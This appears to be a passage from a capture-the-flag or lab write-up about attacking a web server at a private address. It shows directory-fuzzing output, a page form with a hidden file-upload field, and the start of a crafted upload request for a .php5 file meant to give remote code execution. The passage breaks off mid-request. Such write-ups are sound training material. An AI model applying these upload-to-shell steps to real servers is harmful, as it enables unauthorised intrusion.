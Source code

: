 ```bash

 :: Method           : GET
 :: URL              : http://172.16.7.155/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

uploads                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 156ms]
assets                  [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 157ms]
.                       [Status: 200, Size: 11279, Words: 3080, Lines: 239, Duration: 153ms]
:: Progress: [107982/107982] :: Job [1/1] :: 660 req/sec :: Duration: [0:02:52] :: Errors: 0 ::
```

Ok, we have a `/uploads` that contains a index of files. Maybe we can upload php.

In `index.php` we have the following code in source code.
```html
<form action="/email.php" method="POST" class="form-with-styler" data-form-title="Form Name" enctype="multipart/form-data">
                    <!--
                                <input type="file" name="the_file" id="fileToUpload">
                    -->
                    <div class="">
                        <div id="alert" hidden="hidden" data-form-alert="" class="alert alert-success col-12">Obrigado por se inscrever!</div>
                        <div hidden="hidden" data-form-alert-danger="" class="alert alert-danger col-12">Oops...! tivemos um problema!</div>
                    </div>
                    <div class="dragArea row">
                        <div class="col form-group" data-for="email">
                            <input type="text" name="email" placeholder="Your best e-mail" data-form-field="email" class="form-control" required="required" value="" id="email-countdown1-2">
                        </div>
                        <div class="mbr-section-btn"><button type="submit" class="btn btn-primary display-4">Sign-up</button></div>
                    </div>
                </form>
```

This is a form with commented input. Maybe this is the path to gain RCE via Local File Inclusion using PHP shell.

Inside `/uploads`, we can found a file named `shell.php5`.

## Exploitation
I'll test this attack vetor from input. So lets go make a request with a input `email` and `the_file` to `/email.php` using burp. We can test upload a file with extension php5.
```
POST /email.php HTTP/1.1
Host: 172.16.7.155
Content-Type: multipart/form-data; boundary=---------------------------1166246811985806323925494029
Content-Length: 384

-----------------------------1166246811985806323925494029
Content-Disposition: form-data; name="email"

teste@gmail.com
-----------------------------1166246811985806323925494029
Content-Disposition: form-data; name="the_file"; filename="teste.php5"
```